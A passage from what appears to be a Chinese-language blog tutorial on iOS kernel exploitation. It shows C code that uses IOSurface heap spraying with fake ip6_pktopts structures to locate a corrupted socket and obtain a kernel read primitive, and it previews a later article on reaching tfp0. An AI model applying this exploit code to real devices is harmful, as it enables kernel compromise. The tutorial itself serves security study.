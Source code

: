 ```c
    bool found = false;
    int found_at = -1;
    
    for (int i = 0; i < 20; i++) { // iterate through the sockets to find if we overwrote one
        spray_IOSurface((void *)fake_opts, sizeof(struct ip6_pktopts));
        
        for (int j = 0; j < 128; j++) {
            int minmtu = -1;
            get_minmtu(sockets[j], &minmtu);
            if (minmtu == 0x41424344) { // found it!
                found_at = j; // save its index
                found = true;
                break;
            }
        }
        if (found) break;
    }
    
    free(fake_opts);
    
    if (!found) {
        printf("[-] Failed to read kernel\n");
        return 0;
    }
    
    for (int i = 0; i < 128; i++) {
        if (i != found_at) {
            close(sockets[i]);
        }
    }
    
    void *buf = malloc(sizeof(struct in6_pktinfo));
    get_pktinfo(sockets[found_at], (struct in6_pktinfo *)buf);
    close(sockets[found_at]);
    
    return buf;
}
```

# 总结
本文介绍了一种更通用的 Heap Spraying 方案，并介绍了通过该方案实现 kread 的过程和原理。

# 下节预告
通过 IOSurface Spraying 不仅能实现 kread，也可以实现 kfree。在下一篇文章中，我们将介绍通过 kread + kfree 的组合实现 tfp0 的最后几个步骤。

<img style="width: 320px;" src="https://user-gold-cdn.xitu.io/2019/8/24/16cc33a51b0a7319?w=1005&h=1164&f=png&s=197292"></img>

# 参考资料
1. [IOSurface Framework. Apple Document](https://developer.apple.com/documentation/iosurface)
2. [IOSurface. iPhone Dev Wiki](https://iphonedevwiki.net/index.php/IOSurface)
3. [Sock Port 2. jakeajames](https://github.com/jakeajames/sock_port/tree/sock_port_2)
